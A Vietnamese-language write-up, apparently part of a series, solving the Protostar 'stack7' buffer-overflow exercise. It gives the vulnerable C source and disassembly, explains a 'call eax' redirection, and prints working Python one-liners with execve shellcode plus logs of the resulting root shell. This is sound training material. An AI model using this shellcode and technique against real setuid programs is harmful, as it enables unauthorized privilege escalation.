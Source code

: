 ```yaml
---
layout: post
title: stack7
---
```

Trong bài này, giới hạn `eip` của caller cao hơn bài trước.
Bạn không thể chọn `eip` có dạng `0xb???????`, do đó, chỉ có thể return về lệnh trong phần chính (.text trong asm) của chương trình.
Phương pháp ROP giới thiệu trong bài trước vẫn có nguyên giá trị trong bài này.
Hãy tham khảo đáp ở cuối bài.
Sau đây là source code và asm code.
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

```asm
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
0x08048545 <main+0>:    push   ebp
0x08048546 <main+1>:    mov    ebp,esp
0x08048548 <main+3>:    and    esp,0xfffffff0
0x0804854b <main+6>:    call   0x80484c4 <getpath>
0x08048550 <main+11>:   mov    esp,ebp
0x08048552 <main+13>:   pop    ebp
0x08048553 <main+14>:   ret
```
Một kỹ thuật mới dựa vào lệnh `call`/`jmp` register để exploit sẽ được giới thiệu trong bài này.
Nguyên lý của phương pháp là điều chỉnh các register như `eax`, `ebx`, etc. rồi dùng các lệnh điều hướng `call`, `jmp`, etc. để tìm đến đoạn code mong muốn.
Cụ thế trong stack7, hàm `getpath` có trả về giá trị và giá trị này là kết quả của hàm `strdup` với `buffer` là tham số.
Như vậy ta biết, nội dung của `buffer` sẽ được sao chép vào một vị trí khác trên bộ nhớ và `strdup` trả về địa chỉ đó vào register `eax`, ngay trước khi thoát hàm.
Ta cũng biết rằng `buffer` chứa injected code, do vậy bản sao của nó qua `strdup` cũng sẽ chứa đoạn code này.
Việc điều hướng bằng `call eax` hay `jmp eax` sẽ exploit thành công chương trình.

Trước tiên ta cần tìm đúng lệnh `call eax` có sẵn trong phần .text của stack7.
Bạn có thể dùng objdump và grep như sau:
```bash
objdump -d /opt/protostar/bin/stack7 | grep "call"
```
Sau đó lọc ra một lệnh `call eax` với địa chỉ khác với dạng `0xb???????`.
Có 2 lệnh như vậy trong stack7, tại địa chỉ `0x080484bf` và `0x080485eb`.
Việc tiếp theo, chúng ta sẽ tính toán giá trị cho `buffer` để exploit chương trình như sau:
```bash
python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 16 + '\xbf\x84\x04\x08'" > input.txt
```
Giá trị này bao gồm 64 byte mong đợi của `buffer`, trong đó 36 byte đầu là `nop` cho NOP-sled và 28 byte còn lại cho injected code.
4 byte tiếp theo ghi đè lên biến `ret`.
8 byte tiếp theo dành cho padding.
4 byte tiếp theo dành cho `ebp` của caller.
4 byte cuối cùng là địa chỉ phù hợp, `0x080484bf`, để ghi đè `eip` của caller và điều hướng chương trình về lệnh `call eax`.
Sau đây là bộ nhớ trước và sau hàm `gets`.
Phân biệt <span style="color:aqua">buffer</span> và <span style="color:orangered">eip mới của caller</span>.
<pre class="memory">
0xbffff710:     0xbffff72c      0x00000000      0xb7fe1b28      0x00000001
0xbffff720:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0xb7f0186e</span>
0xbffff730:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0xb7ec6165</span>      <span style="color:aqua">0xbffff748</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff740:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x0804973c</span>      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0x08048380</span>
0xbffff750:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804973c</span>      <span style="color:aqua">0xbffff788</span>      <span style="color:aqua">0x08048589</span>
0xbffff760:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048570</span>      0xbffff788
0xbffff770:     0xb7ec6365      0xb7ff1040      0xbffff788      <span style="color:orangered">0x08048550</span>
</pre>
<pre class="memory">
0xbffff710:     0xbffff72c      0x00000000      0xb7fe1b28      0x00000001
0xbffff720:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0x90909090</span>
0xbffff730:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>
0xbffff740:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>
0xbffff750:     <span style="color:aqua">0x6850c031</span>      <span style="color:aqua">0x68732f2f</span>      <span style="color:aqua">0x69622f68</span>      <span style="color:aqua">0x89e3896e</span>
0xbffff760:     <span style="color:aqua">0xb0c289c1</span>      <span style="color:aqua">0x3180cd0b</span>      <span style="color:aqua">0x80cd40c0</span>      0x90909090
0xbffff770:     0x90909090      0x90909090      0x90909090      <span style="color:orangered">0x080484bf</span>
</pre>
Sau đây là chuỗi chương trình được ghép lại để bạn dễ hình dung.
<pre class="memory">
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
...
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
<span style="color:orangered">0x80484bf <frame_dummy+31>:     call   eax</span>
<span style="color:springgreen">0x????????:     nop</span>
<span style="color:springgreen">0x????????:     nop</span>
<span style="color:springgreen">0x????????:     nop</span>
<span style="color:springgreen">0x????????:     nop</span>
...
<span style="color:springgreen">0x????????:     xor    eax,eax</span>
<span style="color:springgreen">0x????????:     push   eax</span>
<span style="color:springgreen">0x????????:     push   0x68732f2f</span>
<span style="color:springgreen">0x????????:     push   0x6e69622f</span>
<span style="color:springgreen">0x????????:     mov    ebx,esp</span>
...
</pre>
Đáp án và kết quả hãy tham khảo ở cuối bài.

## Ref
```bash
user@protostar:~$ python -c "print 'ABC\x00' + '\x90' * 32 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 16 + '\x44\x85\x04\x08' + '\x60\xf7\xff\xbf'" > input.txt
user@protostar:~$ (cat input.txt ; cat) | stack7
input path please: got path ABC
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

```
```bash
user@protostar:~$ python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 16 + '\xbf\x84\x04\x08'" > input.txt
user@protostar:~$ (cat input.txt ; cat) | stack7
input path please: got path ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒▒°
                                                                                 ̀1▒@̀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

```

